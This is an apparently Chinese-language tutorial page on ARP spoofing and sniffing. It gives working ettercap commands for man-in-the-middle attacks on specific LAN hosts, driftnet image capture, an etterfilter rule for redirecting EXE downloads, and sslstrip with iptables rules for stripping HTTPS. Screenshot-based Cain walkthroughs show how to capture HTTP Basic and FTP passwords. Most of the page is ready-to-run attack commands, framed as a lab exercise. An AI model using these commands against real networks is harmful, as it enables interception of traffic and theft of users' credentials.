 # 欺骗攻击

**Ettercap**

ettercap

```text
ettercap -i eth0 -T -q -M arp:remote /192.168.199.171// /192.168.199.1//
```

driftnet

```text
driftnet -i eth0 -a
```

tcpdump

```text
tcpdump -i eth0 arp -w 3
```

当192.168.199.171浏览图片时，会自动将图片下载至目录中：

![](https://p408.ssl.qhimgs4.com/t0152a888371efbf54a.png)

![](https://p408.ssl.qhimgs4.com/t01a5c8e14dbd5fe0e1.png)

当192.168.199.171登录采用http协议的系统时，会抓取其中的用户名/密码字段：

![](https://p408.ssl.qhimgs4.com/t0187b2a7d76bfed9ba.png)

将数据包导出分析：

本机数据包分析：

![](https://p408.ssl.qhimgs4.com/t01f68dd5c4119d5561.png)

可以看到攻击机一直再向本机发送ARP响应包，查看本机arp缓存表：

![](https://p408.ssl.qhimgs4.com/t01adc71339e1c5b6d1.png)

已经被攻击机的MAC地址占用。

**嗅探**

```text
ettercap -i wlan0 -T -q -M arp:remote /192.168.1.211// /192.168.1.119//
ettercap -i wlan0 -T -q -M arp:remote /// ///
```

-P 使用插件 -T 使用基于文本界面 -q 启动安静模式（不回显） -M 启动ARP欺骗攻击

**EXE重定向**

```text
etterfilter exe.filter -o exe.ef
ettercap -T -q -i wlan0 -F exe.ef -M ARP /// /192.168.1.211（目标IP）// -P autoadd
```

**嗅探SSL**

```text
echo “1”>/proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 9527
sslstrip -l 9527
或 python sslstrip.py -a -l 9527 -w sslstrip.log
```

#### Cain <a id="cain"></a>

**抓取HTTP协议中的密码**

访问phpstudy官网[www.phpstudy.net](http://www.phpstudy.net/)

![](https://p408.ssl.qhimgs4.com/t019d5e7189a9b33b52.png)

下载

![](https://p408.ssl.qhimgs4.com/t015ba6d97dd99eead8.png)

下载完成后点击安装

![](https://p408.ssl.qhimgs4.com/t01d9594e1a743f9c3b.png)

打开phpstudy，点击启动

![](https://p408.ssl.qhimgs4.com/t01216f3825017051b3.png)

访问127.0.0.1检查web服务是否正常

![](https://p408.ssl.qhimgs4.com/t01b2d8f3f5e41c61b7.png)

将下面的脚本保存到web根目录下auth.php &lt;?php header\("WWW-Authenticate: Basic realm=\”test\""\); header\("HTTP/1.0 401 Unauthorized"\);

![](https://p408.ssl.qhimgs4.com/t01c2b951b614b30a11.png)默认为C:\phpstudy\phptutorial\www

![](https://p408.ssl.qhimgs4.com/t017537d467eca4ae74.png)

浏览器中访问脚本，地址为[http://127.0.0.1/auth.php](http://127.0.0.1/auth.php)

![](https://p408.ssl.qhimgs4.com/t01a509004954fce49e.png)使用cain进行arp欺骗

![](https://p408.ssl.qhimgs4.com/t01545eaa930b6bf1e7.png)Ubuntu上使用curl请求url，使用—basic参数及-u参数进行http基础认证

![](https://p408.ssl.qhimgs4.com/t017b4a95db020fea4a.png)

Cain中抓取密码

![](https://p408.ssl.qhimgs4.com/t01a64be429df815c07.png)

至此，操作结束

**抓取FTP协议中的密码**

**1. 攻击机上下载cain并安装**

下载cain

![](https://p408.ssl.qhimgs4.com/t015dee1a2d3f187395.png)

安装时同时选择安装winpcap

![](https://p408.ssl.qhimgs4.com/t01584f6fb26da3130a.png)

打开cain

![](https://p408.ssl.qhimgs4.com/t01a21e9b5f305d5f7d.png)

关闭防火墙

![](https://p408.ssl.qhimgs4.com/t01e8c2eda5450cc7ba.png)

在ubuntu上安装pip Sudo apt-get install python-pip

![](https://p408.ssl.qhimgs4.com/t01e00b64c0f16f3223.png)

安装pyftpdlib: Pip install pyftpdlib

启动pyftpdlib

![](https://p408.ssl.qhimgs4.com/t01e00b0ed1d8c6d2bf.png)Windows下使用ftp客户端访问服务器，匿名登陆

![](https://p408.ssl.qhimgs4.com/t01dc65f59b1626a26a.png)使用cain扫描主机

![](https://p408.ssl.qhimgs4.com/t01cd046afcfa957532.png)

添加网关及需要欺骗的主机

![](https://p408.ssl.qhimgs4.com/t01a5c445ab03c13e80.png)

开始欺骗，再次使用ftp客户端访问，抓取密码

![](https://p408.ssl.qhimgs4.com/t017c58df6146d563f2.png)至此，操作结束


